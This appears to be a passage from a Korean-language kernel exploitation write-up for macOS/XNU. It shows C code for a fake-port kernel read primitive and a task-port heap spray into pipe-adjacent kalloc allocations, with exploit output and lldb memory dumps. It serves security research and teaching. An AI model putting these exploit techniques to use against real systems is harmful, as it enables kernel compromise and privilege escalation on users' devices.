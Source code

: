 ```c
    } while (0)

    INFO("testing the first read...\n");

    uint32_t first_read_val = 0x0;
    rk32(original_port_addr, first_read_val);
    INFO("first read val = 0x%x\n", first_read_val);
```

```c
[*] starting kreads...
[*] testing the first read...
[*] first read val = 0x80000025
```

### task port 스프레이하기

파이프 할당 주소는 쌍파이프 0x500으로 해두었기 때문에 커널 할당 크기는 0x1000이다.
파이프 할당주소와 인접하게 만들기 위해서 0x1000 같은 크기로 커널 할당 주소에 task port들로 채워지게 만든다. 스프레이는 0x1000번 정도 수행해줬다.

```c
//spray task ports
    mach_port_t p[0x1000];
    for(int i = 0; i < 0x1000; i++) {
        p[i] = fill_kalloc_with_port_pointer(mach_task_self(), 0x1000/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
    }

```

fake port 파이프 할당주소는 0xffffff802911d000이며,

```c
[*] refs: 101
[*] total pipes created: 1280
[*] new port addr: 0xffffff802911d000
```

fake port 파이프 할당주소 + 0x50000 ~ +0x160000에 전부다 task port 커널 주소가 채워져있었다.

```c
(lldb) x/4gx 0xffffff802911d000+0x400000
0xffffff802951d000: 0x0000006480000002 0x0000000000000000
0xffffff802951d010: 0x0000000000000011 0x0000000000000066
(lldb) x/4gx 0xffffff802911d000+0x500000
0xffffff802961d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802961d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
...
(lldb) x/4gx 0xffffff802911d000+0x1500000
0xffffff802a61d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
